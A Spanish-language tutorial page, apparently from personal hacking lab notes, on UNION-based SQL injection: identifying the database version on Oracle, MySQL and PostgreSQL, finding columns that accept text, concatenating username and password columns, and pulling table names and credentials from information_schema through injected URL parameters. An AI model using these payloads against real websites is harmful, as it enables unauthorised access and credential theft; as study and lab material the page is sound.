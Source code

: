 # Averiguar versión y tipo de base de datos

Para esto utilizaremos un ataque UNION, el cual podrá concatenar columnas de otras tablas, lo cual nos ayudara a observar cosas como la versión de la base de datos, en el caso de Oracle, los nombres de las tablas en las cuales se almacenan la versión de la base de datos, son las siguientes: 

```Mysql
SELECT banner FROM v$version
SELECT version FROM v$instance
```

Pero para poder lograr que se muestren estos datos y no salga un error tenemos que saber las columnas que ya ha llamado el servidor antes de que hiciéramos la inyección, ya que para usar UNION se necesita que las columnas seleccionadas sean de la misma cantidad, para saber cuantas columnas se necesitan para que la consulta sea correcta sugiero visitar la sección [Descubriendo la cantidad de columnas llamadas en una consulta](/Hacking/Explotación/Hacking%20Web/SQLI%20(SQL%20Injection)/2-%20Descubriendo%20la%20cantidad%20de%20columnas%20llamadas%20en%20una%20consulta))

 Ya sabiendo que hay 3 columnas, solo necesitaríamos hacerlo siguiente para saber la versión de la base de datos:

### En Bases de datos Oracle

```mysql
SELECT * FROM shop WHERE category='Gifts' UNION SELECT banner, NULL, NULL FROM v$version-- 
```

Lo que yo hago es rellenar los espacios faltantes con datos nulos, es decir, "NULL"

### En bases de datos Microsoft/MySQL

Revisando la [Hoja de trucos SQLi](/Hacking/Explotación/Hacking%20Web/SQLI%20(SQL%20Injection)/Hoja%20de%20trucos%20SQLi) vemos que para ver la versión de la base de datos en estas bases de datos no es necesario llamar a una tabla en especifico, también aparece que la forma de comentar para MySQL es distinta que en Oracle y PostgreSQL, en caso de MySQL a pesar de parecer lo mismo hay que tener muy en cuenta que hay que poner un espacio al final, lo que yo hago es poner un espacio y un guion para asegurarme que funcione correctamente, por lo tanto la consulta quedaría algo asi al inyectar el Payload:

```mysql
SELECT * FROM products WHERE category='Gifs' UNION SELECT @@version, NULL-- -'
```


### En bases de datos PostgreSQL

En estas bases de datos el ejemplo seria algo asi: 

```mysql
SELECT * FROM products WHERE category='Gifs' UNION SELECT version(),NULL-- -'
```

# Encontrar la columna que admite texto

En las bases de datos cada columna tiene ciertas propiedades que hacen que admitan solo ciertos tipos de datos, como solo números o solo texto, encontrar cual es la columna que muestra es importante ya que no podemos unir (UNION) columnas que tengan tipos de datos diferentes, para determinar esto lo primero que necesitamos es definir el numero de columnas, para este ejemplo hay 3 columnas, ya sabiendo que tiene 3 columnas tenemos que saber si todos los campos aceptan datos nulos (NULL), ya que si no lo hacen tendremos que ver mediante combinaciones cuales son los datos aceptados para cada columna, esto se podria hacer con un Script pero en este caso no es necesario:

```Python
http://{pagina_vulnerable}/filter?category=Gifts' UNION SELECT NULL,NULL,NULL-- -
```

En este caso no se presenta ningun error, por lo que todas las columnas admiten datos nulos, ahora lo que tendriamos que hacer es revisar en cada campo a ver cual acepta texto, en este caso es el del medio:

```Python
http://{pagina_vulnerable}/filter?category=Gifts' UNION SELECT NULL,'abc',NULL-- -
```

Y asi es como se descubren columnas que acepten texto.

# Concatenar información en bases de datos

En muchas situaciones solo hay una columna que acepta texto, por lo que no podemos representar usuarios y contraseñas... o si?, bueno esto lo podemos conseguir con la concatenación de texto, podemos  en una sola columna juntar la información de otras dos columnas de otra tabla, esto se entenderá mejor con un ejemplo, pero antes de eso, es importante entender que en el caso con el que voy a ejemplificar, solo existen dos columnas, una que permite texto y otra que solo permite datos nulos: 

```Python
http://{pagina_vulnerable}/filter?category=Gifts' UNION SELECT NULL,password || username FROM users-- -
```

Esto daría como resultado:

```java
administrator$uper$ecretP$$wrd!
``` 

Como puedes ver se usa "||" para unir dos columnaspero esto tambien se puede hacer con texto, es mas, haremos una flecha con espacios para que los nombres de usuarios no esten pegados a las contraseñas, lo cual se ve feo y poco legible:

```Python
http://{pagina_vulnerable}/filter?category=Gifts' UNION SELECT NULL,password || ' ---> ' || username FROM users-- -
```

Esto va a sacar como resultado algo como:

```java
administrator ---> $uper$ecretP$$wrd!
```

Y asi podemos representar texto en una sola columna.

# Extraer información de la base de datos

### En bases de datos PostgreSQL, MySQL y MicrosoftSQL

Ya con la idea de como se extrae información  en un entorno de SQLi, en donde ya hay una cantidad  de columnas llamadas y tenemos que acomodarnos a ella, será fácil explicar como extraer información de la base de datos, solo hace falta que entendamos como cuales son las tablas que nos dan información privilegiada, esto lo documento [Aquí](/Hacking/Explotación/Hacking%20Web/SQLI%20(SQL%20Injection)/Hoja%20de%20trucos%20SQLi###Información%20de%20columnas).


Usaremos la tabla information_schema.columns, ya que contiene los nombres de tablas y columnas existentes en la base de datos, en este caso la vulnerabilidad se presenta en el llamado a una serie de textos, después de determinar la cantidad de columnas podremos saber cuantos datos podremos mostrar, en este caso son 2 columnas, normalmente la URL es asi:

```python
https://{Vulnerablepage}/filter?category=Gifts' UNION SELECT NULL,NULL,NULL-- -
```

Esto es en caso de que la base de datos no sea una base de datos Oracle, ya que en Oracle hay que especificar una tabla, en caso de que fuera Oracle hariamos "Gifts' UNION SELECT NULL,NULL,NULL FROM dual-- -".

Entonces hice lo siguiente:

```Mysql
https://{Vulnerablepage}/filter?category=Gifts' UNION SELECT column_name,table_name FROM information_schema.columns-- -
```

Esto me dio como resultado un montón de columnas con sus respectivas tablas, entonces filtré por "username" y "password" y asi montón las columnas y tablas correspondientes a el usuario del que tenia que conseguir la contraseña, en este caso "administrator".

```Mysql
https://{Vulnerablepage}/filter?category=Gifts' UNION SELECT usernames_xkuj, passwords_lhia FROM users_lkasf -- -
```

### En bases de datos Oracle

En el caso de Oracle la cosa no cambia mucho, únicamente como se llaman las tablas que contienen información, estas tablas y sus respectivas columnas están en [Aquí](/Hacking/Explotación/Hacking%20Web/SQLI%20(SQL%20Injection)/Hoja%20de%20trucos%20SQLi###Información%20de%20columnas####Oracle).
